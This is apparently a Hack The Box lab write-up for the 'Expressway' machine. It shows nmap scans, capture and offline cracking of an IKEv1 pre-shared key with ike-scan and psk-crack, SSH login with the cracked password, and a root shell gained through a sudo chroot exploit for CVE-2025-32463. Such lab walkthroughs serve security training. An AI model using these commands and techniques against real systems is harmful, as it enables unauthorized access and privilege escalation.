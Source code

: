 # Hack The Box Write-Up: Expressway 

### 1. Reconnaissance and Enumeration (Footprinting)
The first step was to discover open services and gather initial intelligence on the target machine using nmap.

#### 1.1. Full TCP/UDP Port Scan
An initial aggressive TCP scan (nmap -A) showed only the SSH port open, leading to an immediate pivot to a full UDP scan (nmap -sU) to ensure no critical services were missed.

TCP Scan Output (Abbreviated):

```Bash

$ nmap -A 10.10.11.87

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
UDP Scan Output (Abbreviated):
```
```Bash

$ nmap -sU -p- 10.10.11.87

PORT   STATE SERVICE
500/udp open isakmp
```
####  1.2. Key Findings
The two critical pieces of information gathered were:

Port 22/tcp (SSH): The primary login service. Access requires valid credentials (username and password).

Port 500/udp (ISAKMP): The Internet Security Association and Key Management Protocol, used for setting up IPsec VPN connections. This immediately suggested an attack path involving credential or information leakage.

### 2. Initial Access: IKEv1 PSK Cracking
The path to initial access involved exploiting a weakness in the ISAKMP service on port 500/udp to obtain credentials for SSH login.

#### 2.1. Hashing the IKEv1 Pre-Shared Key (PSK)
The ike-scan tool was used in Aggressive Mode (-A) to force the server to respond with cryptographic data that includes a hash of the Pre-Shared Key (PSK).

```Bash

$ ike-scan -P -M -A -n fakeID 10.10.11.87
```
The output revealed two crucial pieces of data:

Potential Username: ID(Type=ID_USER_FQDN, Value=ike@expressway.htb). This strongly suggested the username ike for the SSH service.

IKE PSK Hash: A long, structured string of data containing all the cryptographic components necessary for an offline brute-force attack.

#### 2.2. Cracking the PSK Hash
The captured hash was saved to ike_hash.txt and cracked using psk-crack and the default Kali Linux wordlist, rockyou.txt.

The psk-crack tool uses the hash components to perform a dictionary attack against the PSK.

Command:

```Bash

$ psk-crack -d /usr/share/wordlists/rockyou.txt ike_hash.txt
```
Result:
```Bash
...
key "freakingrockstarontheroad" matches SHA1 hash 52621694e045042580448144621defd4a75d67c7
...
```
The cracked PSK was determined to be freakingrockstarontheroad.

#### 2.3. SSH Login and User Flag
Using the discovered username (ike) and the cracked PSK as the password, a successful SSH connection was established.

```Bash

$ ssh ike@10.10.11.87
Password: freakingrockstarontheroad

ike@expressway:~$ cat user.txt
## [USER_FLAG_HERE]
```
### 3. Privilege Escalation: CVE-2025-32463 Sudo Exploit
Upon gaining initial access, the primary objective shifted to privilege escalation. A quick file listing in the user's home directory revealed a significant clue.

####  3.1. On-Target Enumeration
The home directory of the ike user contained files explicitly related to a vulnerability and a ready-made exploit:

```Bash

ike@expressway:~$ ls
CVE-2025-32463  exploit.sh  linpeas.sh  user.txt  x.zip
```
The presence of CVE-2025-32463 and an associated exploit.sh script immediately identified the privilege escalation path: a local exploit against the sudo program.

#### 3.2. Sudo Chroot Bypass Vulnerability
The script exploited CVE-2025-32463, a vulnerability in Sudo versions before 1.9.17p1. The flaw is in how Sudo handles the --chroot command:

When a user runs sudo --chroot, Sudo attempts to resolve system names (user/groups) by looking at the configuration files inside the user-controlled chroot directory (/etc/nsswitch.conf).

Crucially, Sudo performs this file lookup before dropping its elevated root privileges.

The exploit.sh script leveraged this by setting up a malicious nsswitch.conf file that forced the root-privileged Sudo process to load a user-controlled dynamic library (libnss_/woot1337.so.2). This library contained simple C code to immediately execute a root shell.

#### 3.3. Execution and Root Access
The exploit was executed directly from the user's home directory:

```Bash

ike@expressway:~$ chmod +x exploit.sh
ike@expressway:~$ ./exploit.sh
woot!
# The terminal prompt changes, indicating success.

# Verify root access
root@expressway:~# whoami
root
```
4. Final Flag Submission
With a root shell successfully obtained, the final step was to retrieve the ultimate proof of compromise.

Command:

```Bash

root@expressway:~# cat /root/root.txt
##The content of the file was the final root flag.
```